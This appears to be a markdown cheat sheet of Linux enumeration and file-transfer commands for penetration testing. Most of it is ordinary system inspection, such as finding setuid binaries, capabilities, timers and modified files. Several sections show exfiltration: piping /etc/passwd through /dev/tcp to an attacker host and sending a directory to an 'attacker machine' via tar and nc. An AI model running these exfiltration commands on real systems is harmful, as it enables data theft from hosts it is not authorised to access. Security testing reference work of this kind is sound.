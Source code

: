 # enumeration quick commands

## list all recursively with ls sorting by modification date within directories
```bash
ls -alRt
```

## enumerate open ports if `ss` is not present
```bash
netstat -tunlp
```

## process tree ps
```bash
ps -auxwf
ps -efw --forest
ps -efw --forest -M                  # SELinux
```

## find setuid binaries
```bash
find / -perm -4000 -ls 2>/dev/null
```

## find files belonging to user
```bash
find / -user username 2>/dev/null
```

## find files belonging to group
```bash
find / -group adm 2>/dev/null
```

## find files modified between specific dates
```bash
find / -type f -newermt "2022-02-20" -not -newermt "2022-02-28" 2>/dev/null
```

## find files modified between specific dates (with reference files)
```bash
touch --date "2007-01-01" /tmp/start
touch --date "2008-01-01" /tmp/end
find /data/images -type f -newer /tmp/start -not -newer /tmp/end 2>/dev/null
```

## get all file hashes in directory using find and md5sum
```bash
find . -exec md5sum {} \;
```

## get number of CPU processors
```bash
cat /proc/cpuinfo | grep processor | wc -l
```

## find all git repositories
```bash
find / -name .git 2>/dev/null
```

## get IP with no `ifconfig` or `ip a` on a host or within docker container
```bash
hostname -I
```
    -i, --ip-address       addresses for the host name
    -I, --all-ip-addresses all addresses for the host

## transfer / download files with just bash
### receive
```bash
LHOST=1.2.3.4
LPORT=443
bash -c "cat < /dev/tcp/$LHOST/$LPORT" > filename
```
### send
```bash
LPORT=443
nc -lvnp $LPORT < filename
```

## exfiltrate files bash pipe tcp
```bash
cat /etc/passwd > /dev/tcp/$LHOST/$LPORT
bash -c "cat /etc/passwd > /dev/tcp/$LHOST/$LPORT"
```

## find files that have millisecond microsecond nanosecond times not common install
files from package managers usually have all 0 for microsecond time in the file system, so files with microsecond times were touched by programs.
full iso time can be sorted alphabetically, so pipe to sort to sort the results.
```bash
find /etc/ -type f -printf "%T+ %p\n" 2>/dev/null | grep -v 0000000000
find /etc/ -type f -printf "%T+ %p\n" 2>/dev/null | grep -v 0000000000 | sort
```

## copy entire directory to attacker machine quickly by piping tar
attacker
```bash
# attacker
nc -lvnp 1337 | tar -xf -
# target
tar -cf - . | nc $LHOST 1337
```

## capabilities

### get capabilities of all files recursively
```bash
getcap -r / 2>/dev/null
```

### without getcap binary
```bash
cat /proc/self/status | grep Cap
cat /proc/$pid/status | grep CapEff
```

#### decode on host machine with capsh
```bash
capsh --decode=000001ffffffffff
```

## list systemd timers
```bash
systemctl list-timers
```

## check if users can see other users' processes
the proc pseudo file system will be mounted with `hidepid=2`.
the `gid` option specifies a group id that can read all processes.
```bash
mount | grep hidepid
```

## file transfer with cat herefiles
```bash
cat << EOF >> filename.sh
# paste file contents here
EOF
```

# get facl recursively centos / redhat
```bash
getfacl -R -s .
getfacl -R -s /
```
